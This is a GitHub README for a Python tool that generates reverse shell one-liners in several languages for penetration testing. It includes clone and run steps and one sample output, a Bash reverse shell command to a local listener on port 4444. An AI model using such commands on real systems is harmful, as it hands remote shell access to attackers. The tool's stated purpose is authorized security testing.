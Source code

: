 # Reverse Shell One-Liner Generator

A Python script to generate reverse shell commands for various programming languages. Useful for ethical penetration testing and demonstration purposes.

## Features
- Generate reverse shell commands for Bash, Python, PHP, PowerShell, and more.
- Customizable IP address and port.
- Option to save commands to a file.

## Usage
1. Clone the repository:
git clone https://github.com/Mick19j/ReverseShellGenerator.git

2. Run the script:
python ReverseShellGenerator.py

## Output Example
# Bash #
: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Screenshot
![image](https://github.com/user-attachments/assets/357791bc-2578-4592-a50a-50b7ea916942)


## Disclaimer
**For educational and authorized use only. Misuse of this tool may result in legal consequences.**


## License:
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.
